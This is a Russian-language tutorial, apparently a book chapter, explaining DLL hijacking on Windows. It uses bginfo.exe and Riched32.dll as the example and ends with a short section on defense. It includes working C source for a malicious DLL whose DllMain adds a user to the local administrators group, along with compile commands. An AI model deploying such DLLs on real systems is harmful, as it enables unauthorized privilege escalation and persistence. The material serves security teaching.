

\newpage
\subsection{6. DLL-hijacking в Windows. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="75%"}

Что такое DLL-хайджекинг? DLL-хайджекинг - это техника, при которой мы заставляем легитимное/доверенное приложение загружать нашу вредоносную DLL.

В среде Windows, когда приложение или служба запускается, оно ищет ряд DLL, необходимых для корректной работы. Ниже представлена схема, показывающая порядок поиска DLL по умолчанию в Windows:    

{width="75%"}

В этом посте мы рассмотрим только самый простой случай: каталог приложения доступен для записи. В этом случае любую DLL, загружаемую приложением, можно подменить, так как это первое место, где система ищет библиотеки.

### Шаг 1. Поиск процесса с отсутствующими DLL

Наиболее распространенный способ найти отсутствующие DLL в системе - это запустить [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из Sysinternals, установив следующие фильтры:   

{width="75%"}

Это позволит определить, какие DLL приложение пытается загрузить и путь, по которому оно их ищет:    

{width="75%"}

В нашем примере процесс `Bginfo.exe` не находит несколько DLL, которые потенциально могут быть использованы для DLL-хайджекинга. Например, `Riched32.dll`.

### Шаг 2. Проверка прав доступа к папке

Давайте проверим права доступа к папке:
```cmd
icacls C:\Users\user\Desktop\
```

{width="75%"}

Согласно [документации](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls), у нас есть права на запись в эту папку.   

### Шаг 3. DLL-хайджекинг

Сначала запустим `bginfo.exe`:    
{width="75%"}

Следовательно, если я помещу DLL с именем `Riched32.dll` в тот же каталог, что и `bginfo.exe`, то при запуске инструмента выполнится и мой вредоносный код. Для простоты я создам DLL, которая просто отображает всплывающее сообщение:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Теперь мы можем скомпилировать DLL (на машине атакующего):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="75%"}

Затем переименуем файл в `Riched32.dll` и скопируем нашу вредоносную DLL в `C:\Users\user\Desktop\`.   

{width="75%"}

Теперь запускаем `bginfo.exe`:   

{width="75%"}

{width="75%"}

Как видите, наша вредоносная логика выполнена:

Итак, `bginfo.exe` и вредоносная `Riched32.dll` находятся в одной папке **(1)**    
Затем запускаем `bginfo.exe` **(2)**    
Появляется всплывающее сообщение! **(3)**   

### Защита от атак

Самый простой способ защиты - убедиться, что все установленное программное обеспечение размещается в защищенном каталоге `C:\Program Files` или `C:\Program Files (x86)`. Если программное обеспечение не может быть установлено в эти каталоги, следующим шагом будет обеспечение того, чтобы только пользователи с административными правами могли создавать или изменять файлы в каталоге установки, предотвращая тем самым возможность атакующего развернуть вредоносную DLL и использовать эту уязвимость.

### Эскалация (повышение) привилегий

DLL-хайджекинг может использоваться не только для выполнения кода. Он также может применяться для получения устойчивости и повышения привилегий:    

Найти процесс, который выполняется/будет выполняться с другими привилегиями (горизонтальное/латеральное перемещение) и которому не хватает DLL.   

Иметь разрешение на запись в любую папку, где будет искаться DLL (обычно это каталог исполняемого файла или какая-либо папка внутри системного пути).   

Затем заменяем наш код:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*Для x64 компилируем с: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*Для x86 компилируем с: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Дальнейшие шаги аналогичны.

### Заключение

Но во всех случаях есть нюанс.   

Обратите внимание, что в некоторых случаях DLL, которую вы компилируете, должна экспортировать несколько функций, чтобы загружаться процессом-жертвой. Если эти функции отсутствуют, бинарный файл не сможет их загрузить, и эксплуатация завершится неудачей.    

Таким образом, компиляция пользовательских версий существующих DLL оказывается сложнее, чем может показаться на первый взгляд, так как многие исполняемые файлы не загрузят такие DLL, если в них отсутствуют процедуры или точки входа. Инструменты, такие как [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html), могут использоваться для перечисления всех внешних имен функций и порядковых номеров легитимных DLL. Убедившись, что наша скомпилированная DLL следует тому же формату, мы максимизируем вероятность ее успешной загрузки.    

В будущем я постараюсь разобраться с этим и попробую создать скрипт на Python, который будет генерировать `.def`-файл из оригинальной целевой DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)    
[исходный код на Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

Я добавил уязвимый bginfo (версия 4.16) на github, если вы захотите поэкспериментировать.   
